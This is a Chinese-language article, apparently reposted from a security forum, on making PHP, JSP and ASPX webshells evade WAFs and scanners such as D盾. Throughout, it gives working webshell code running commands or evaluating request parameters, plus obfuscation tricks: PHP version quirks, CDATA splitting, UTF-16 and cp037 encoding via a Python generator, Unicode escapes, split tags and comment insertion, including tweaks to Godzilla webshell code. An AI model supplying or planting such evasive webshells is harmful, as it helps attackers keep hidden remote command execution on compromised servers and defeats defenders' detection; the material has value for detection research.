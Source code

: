 ### 作者：Icepaper  
原文地址：[https://xz.aliyun.com/t/10937](https://xz.aliyun.com/t/10937)

## PHP的免杀技巧

在传统的PHP免杀中，通常使用代码变形和从外部获取参数来避开检测。然而，针对一些先进的WAF（Web应用防火墙）和防火墙，不管如何变形，它们最终还是能够检测出命令执行的位置。而如果在语法上出错，就有可能导致解析失败。本文介绍了几种通过利用PHP版本差异来制造语义错误，达到命令执行的方式。

### 1. 在高版本PHP中利用不换行的语法执行命令

```php
<?=  
$a = <<< aa  
assasssasssasssasssasssasssasssasssasssassss  
aa;
echo `whoami`;
?>
```

- **PHP 5.2**：报错
- **PHP 5.3**：报错
- **PHP 5.4**：报错
- **PHP 7.3.4**：成功执行命令

### 2. 使用 `\` 特殊符号引起报错

```php
<?php  
\echo `whoami`;
?>
```

- **PHP 5.2**：成功执行命令
- **PHP 5.3**、**PHP 7.3**：执行失败

### 3. 利用十六进制字符串

在PHP 7中不再将十六进制字符串识别为数字，但PHP 5仍然认为是数字。

```php
<?php  
$s = substr("aabbccsystem", "0x6");  
$s('whoami');
?>
```

- **PHP 5.2**、**PHP 7.3**：执行失败
- **PHP 5.3**、**PHP 5.5**：成功执行命令

通过这些不同版本的差异，可以绕过一些未能对所有版本进行检测的WAF。

### 4. 结合垃圾数据和变形混淆构造更多Payload

可以结合垃圾数据、变形混淆，以及大量特殊字符和注释，构造更多绕过防护的Payload。例如，PHP 7.0中的 `??` 运算符，如果PHP版本为5.x就会报错，可以结合其他方式来绕过。

```php
<?php  
$a = $_GET['function'] ?? 'whoami';  
$b = $_GET['cmd'] ?? 'whoami';  
$a(null.(null.$b));
```

## JSP的免杀技巧

由于作者对Java不太深入，这里分享几个小技巧：

### 1. JSP和JSPX兼容性

- JSP文件的后缀可以兼容JSPX格式，也兼容JSPX的所有特性，如CDATA特性。
- 但JSPX文件的后缀无法兼容JSP格式代码。

### 2. 使用CDATA

在XML元素中，`<` 和 `&` 是非法字符，因此可以将包含这些字符的脚本代码定义在 `<![CDATA[]]>` 中，解析器会忽略CDATA部分内容。

例如：
```jsp
String cmd = request.getPar<![CDATA[ameter]]>("shell");
```

此时 `ameter` 会和 `getPar` 拼接成为 `getParameter`。

### 3. 利用Java支持的其他编码格式

可以使用其他字符编码格式来绕过防护，例如使用 `utf-16be`、`utf-16le` 和 `cp037`。

```python
# python2
charset = "utf-8"  
data = '''<%Runtime.getRuntime().exec(request.getParameter("i"));%>'''.format(charset=charset)

f16be = open('utf-16be.jsp','wb')  
f16be.write('<%@ page contentType="charset=utf-16be" %>')  
f16be.write(data.encode('utf-16be'))

f16le = open('utf-16le.jsp','wb')  
f16le.write('<jsp:directive.page contentType="charset=utf-16le"/>')  
f16le.write(data.encode('utf-16le'))

fcp037 = open('cp037.jsp','wb')  
fcp037.write(data.encode('cp037'))  
fcp037.write('<%@ page contentType="charset=cp037"/>')
```

可以看到对于D盾的绕过效果还是很好的。

## ASPX的免杀技巧

ASPX的免杀方式相对较少，这里列出5种绕过方式：

1. Unicode编码
2. 空字符串连接
3. 使用 `<%%>` 语法
4. 头部替换
5. 特殊符号 `@`
6. 注释

### 1. 使用Unicode编码

例如将 `eval` 变为 `\u0065\u0076\u0061\u006c`：
```aspx
<%@ Page Language="Jscript"%><%\u0065\u0076\u0061\u006c(@Request.Item["pass"],"unsafe");%>
```

- 在JScript中，不支持大写U和多个0的增加，而在C#中则可以支持。

### 2. 空字符串连接

在函数字符串中插入以下字符，不会影响脚本的正常运行：
- `\u200c`、`\u200d`、`\u200e`、`\u200f`

### 3. 使用 `<%%>` 语法

将整个字符串与函数用 `<%%>` 分割：
```aspx
<%@Page Language=JS%><%eval%><%(Request.%><%Item["pass"],"unsafe");%>
```

### 4. 头部替换

可以将 `<%@ Page Language="Jscript"%>` 修改为 `<%@Page Language=JS%>`，也可以将其移到代码的其他位置。

### 5. 使用特殊符号 `@`

例如在哥斯拉webshell中添加 `@` 符号，来改变其特征但不影响解析：
```aspx
(Context.Session["payload"] == null)  
(@Context.@Session["payload"] == null)
```

### 6. 注释随意插入

在代码中可以任意插入注释，例如：
```aspx
<%/*qi*/Session./*qi*/Add(@"k"/*qi*/,/*qi*/"e45e329feb5d925b"/*qi*/);
```
这种方式也可以与 `<%%>` 结合使用，效果更好。